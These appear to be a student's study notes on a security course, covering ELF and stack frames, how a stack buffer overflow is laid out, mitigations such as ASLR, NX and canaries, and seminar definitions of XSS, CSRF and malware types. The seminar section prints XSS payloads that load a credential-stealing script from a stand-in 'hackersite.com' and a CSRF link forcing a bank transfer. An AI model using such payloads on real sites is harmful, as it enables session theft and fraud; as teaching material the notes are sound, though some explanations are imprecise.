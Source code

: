 # Lecture
## Executable and Linking Format (ELF)

* Collection of headers, segments and sections
* Representation of code and data
* Stored on disk and used to create and start process

## Stack (used for?)

* Lightweight data structure
* Provides functions with static memory (stack frames)
* Not contained within the binary
* Initialized during process startup
* Located at higher end of memory and growing towards lower end
* Maximize space in between

## Stack frame (how can it be used?)

* Contains info about usable memory
* Function's start and end manage each stack-frame
* esp register keeps track of topmost element
* ebp register is used as a reference to point to function arguments and local var
* push instruction to add word-aligned elements
* pop instruction to remove word-aligned elements

## Calling convention (used for?)

- Arg passed via stack
- eip reg passed via stack by CPU
- Function code pushes esp,ebp and other reg
- Results passed back via eax 

## Function call

- khi tạo 1 function thì sẽ add các cái var trong function đó theo stack, theo thứ tự là function->para->return->base  pointer(ebp)->other reg->local var...
- còn trong main sẽ đc fill theo heap

## File execute
![](img/execute_file.png)

- Heap is used for global or extern variable, dynamic variable
- Stack for local variable while calling function

## hack ?

- Attacker controls what is written into buffer
- offset of return with buffer calculatable
- buffer filled with garbage before return
- return points to a callable memory location
- application might crash afterwards
- <img src="img\Function_call.png" style="zoom:67%;" />
- 450 nop-sled (a sequence of [NOP](https://en.wikipedia.org/wiki/NOP_(code)) (no-operation) instructions: is no-operation instruction, the attacker use nop-sled sequence to point to desirable memory address without knowing the exactly address. By pointing to randomly address which contains nop-sled sequence, it will slide through memory space until  desired destination whenever the program [branches](https://en.wikipedia.org/wiki/Branch_instruction) to a [memory address](https://en.wikipedia.org/wiki/Memory_address) anywhere on the slide.)
- 33 byte shellcode: is a injection code to call the bash shell
- 37 junk data
- 4 new return address into nop-sled
-  https://www.youtube.com/watch?v=1S0aBV-Waeo&t=537s (7:40)
- ![](img/buffer_overflow.png)

![](img/overflow.png)

What is buffer overflow

what is stack-based buffer overflow

what is a return add and when it is used

what is a payload and how it is used

what is nop-sled and how it is used

## Mitigation

- Randomize specific memory sections at runtime
  - Candidates sections are: .text,.data,...
  - Offsets within sections do not change
  - Sections have to opt-in
  - Compilerflags to support it
  - Drawback: Only randomize sections. Offsets within section are maintained. Thus leakage of specific pointers can defeat ASLR
  - 32 bits total add
  - Page alignment:12 bits
  - User space
  - mem partition 1 2 3
  - redunction: stack stored in partition one or 2, so effectively 1 bit to guess
  - ->32 - 12 - 1 = 19 bits to guess
- Non excutable: specific segments can be marked as NX
  - Interrupts triggered if such a sections gets executed - > segmentaion fault
  - cpu has to support it
  - compilerflags to support it
  - Draw: do not protected against return oriented approaches
- Stack canaries
  - Magic values placed on stack before stack var
  - Changes with each process invocation
  - Can be checked when leaving functions to prove stack integrity
  - Compilerflags to support it
  - Draw: can potentially leaked, guessed or brute force
- What to do: 
  - use mitigation
  - safe function
  - bounds checking
  - memory-safe programming lang (rust)
  - utilize code analysis (static, dynamic, fuzzing)
  - use modern cpu extension (intel memory protection extensions, control flow enhancement technology)
  
  
# Seminar
- Task1: Define terms and give example:
  - Stored XSS:
    - A persistent XSS, more damage than reflected, the malicious script is injected directly into vulnerable web app, and the script is execute when ever user visit website
    - Directly inject script to html file: `<script> src=”http://hackersite.com/authstealer.js”> </script>.`
  - Reflected XSS:
    - a non-persistent attacks, attacker embedded  malicious script, when user click on the link it will executed 
    - E.g: Inject java script to html tag like: `<a url=http://forum.com?q=news<\script%20src=”http://hackersite.com/authstealer.js”/>`
  - DOM-based XSS:
    - Client side attack, the attack will send the page content instead of server with the html file is injected with malicious code 
    - E.g: attacker can inject an addition box in to these form 
		<img src="https://1.bp.blogspot.com/-8Dn99Siwl-U/VA5r4Csc4sI/AAAAAAAADNQ/0yQHSR3ayFI/s1600/dombased-xss-1.png">
		
		By change message=Please fill in the form to `message=<label>Gender</label><div class="col-sm-4"><select class = "form-control" onchange="java_script_:show()"><option value="Male">Male</option><option value="Female">Female</option></select></div><script>function show(){alert();}</script>`
		<img src="https://1.bp.blogspot.com/-AbZldTkY3Hs/VA5r4AQ7xrI/AAAAAAAADNM/PfO4f5HafSg/s1600/dombased-xss-3.png">
  - CSRF:
    - Using authenticated session cookie of user to establish unwanted operation forge the normal user
    - E.g: a attacker's website implement `<a href="http://bank.com/transfer.do?acct=MARIA&amount=100000">View my Pictures!</a>` to take advantage of if the user already login to bank.com and the cookie still store the authentication token
- Task 2: define term:
  - Evolutionary algorithm:
  
	The mechanisms that mimic the biological evolution with reproduction, mutation and recombination factor to find the stronger solution and eliminate the weakest solution
  - Local search:
  
	The algorithm is to search from solution space by moving around to find the optimal cost or time bound is elapsed.
  - Vertex cover:
  
	Is the set of vertex that can cover all the edge, which mean every edge can be one of directly edge of the node in vertex cover. The minimum vertex cover is the minimum vertex cover that we can create
- Task 3: define term:
  - Companion Virus:
  
	Is a companion virus is a computer virus that stores itself in file named similar to other program but with different extension. When user execute the program, it will run before the true program, hence the user is not recognized 
  - Rootkit:
  
	Is the malware that design to give a root access while actively hiding its presence
  - Back door:
  
	Refer to any method that anybody can able to get around a normal security measure and gain the root access to the system
